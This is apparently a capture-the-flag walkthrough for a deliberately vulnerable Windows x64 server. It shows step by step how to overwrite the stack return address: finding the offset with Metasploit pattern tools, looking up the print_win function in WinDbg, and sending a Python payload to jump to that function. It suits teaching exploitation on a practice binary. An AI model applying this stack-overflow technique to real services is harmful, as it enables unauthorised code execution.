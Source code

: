 # Tingle's Basic x64 Stack Overflower

## You have one goal:
#### Print the flag without modifying the server.

<details>
	<summary>Spoilers</summary>

## Step one:
#### Get a crash
Run Tingle_01.exe in a WindDbg or set WinDbg as your postmortem debugger.

<details>

[WinDbg Cheat Sheet](https://blog.lamarranet.com/wp-content/uploads/2021/09/WinDbg-Cheat-Sheet.pdf)

![Get Windbg](/WinDbgStore.PNG)

![Post Mortem Enable](/postmortem.PNG)

</details>

Send a bunch of bytes to the server.

```python
	sock.send(b"A" * 50)
```

<details>

![Crash](/AAAA.PNG)

</details>

You can see that we have written over the return address, causing an access violation.
This is because our program is trying to return to adress 0x4141414141414141, which is invalid.

(0x41 is the hex value for the ASCII letter "A")

## Step Two:
#### Figure out which A's are causing the return address overwrite.

You can get creative here or use tools.

I prefer to use tools.


<details>

[Metasploit-Framework](https://www.metasploit.com/)

[Kali Metasploit-Framework](https://www.kali.org/tools/metasploit-framework/)

<summary>msf-pattern_create and msf-pattern_offset</summary>

![Patterns](/Pattern.PNG)

</details>

We'll begin by running ```msf-pattern_create -l 1000```

<details>

![Pattern Create](/PatterCreate.PNG)

</details>


Then we'll change our python

From:
```python
sock.send(b"A" * 50)
```
To:
```python
sock.send(b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
```

And send it to the server.

<details>

![Pattern Bytes](/PatternBytes.PNG)

</Details>

You can see that we have now overwrote the return address with ```0x3562413462413362```

You can also see that I ran the Display pointer-size value and Symbols command ```dps rsp```

This command will print the value rsp is pointing to, so you can more easily copy it.

Finally wee run ```msf-pattern_offset -l 50 -q 3562413462413362```

<details>

![Pattern Offset](/PatternOffset.PNG)

</details>

Then we'll change our python

From:
```python
sock.send(b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
```
To:
```python
sock.send(b"A" * 40)
```

For now.

## Step Three:
#### Make the return address something fun.

Start Tingle_01.exe in WinDbg.

<details>

![Debug](/RunInDebug.PNG)

</details>

Enter ```lm``` into the command window prompt.

<details>

![ListModules](/TypeLM.PNG)

</details>

This command (List Modules) shows the modules that are loaded in our process.

We want to find the address of the ```print_win``` function.

So, we'll need to run Display Sybmols command ```x Tingle_01.exe!print_win``` in the WindDbg command prompt.

<details>

![Win Address](/WinAddr.PNG)

</details>

This command shows us the address of the function.

We need to copy that address for our and update our python.
From:
```python
sock.send(b"A" * 40)
```
To:
```python
sock.send(b"A" * 40 + struct.pack("<Q", 0x0000000140002190))
```

You can read up on struct here [Struct](https://docs.python.org/3/library/struct.html).

Here we are turning our ```0x0000000140002190``` address into a ```"<Q"``` little endian 8 byte bytestring so we can send it.

# Profit:

We can run Tingle_01.exe in WinDbg and set a bp on the ```vuln``` function by running the command ```bp Tingle_01!vuln``` in the command prompt.

<details>

![Set Bp](/SetBp.PNG)

</details>

Then we can change to assembly stepping from source stepping with the Step Source Options command ```l-t```.

Send our bytes with our python and once we hit our break point we can step down to the return instruction by

entering the step over instruction command ```p``` or the ```Step Over``` button in the top left a few times.

<details>

![Ret Instruction](/Ret.PNG)

</details>

We can once again runn ```x Tingle_01.exe!print_win``` and ```dps rsp``` to see the address of the print_win function and the address
at which we are going to return.

<details>

![Ret Where??](/ReturnToWhere.PNG)

</details>

You can see that we are about to return to the print_win function instead of main, where we were called from.

Runt the Go command ```g``` or press the ```Go``` button in the top left to continue execution.

Pull up the console for our server and...

![Yay](/Yay.PNG)

Though the server crashes in this case.

Wanna give it a go?

Compiling in debug will change the addresses, amongst other things. So, you can try to figure it out yourself.

</details>
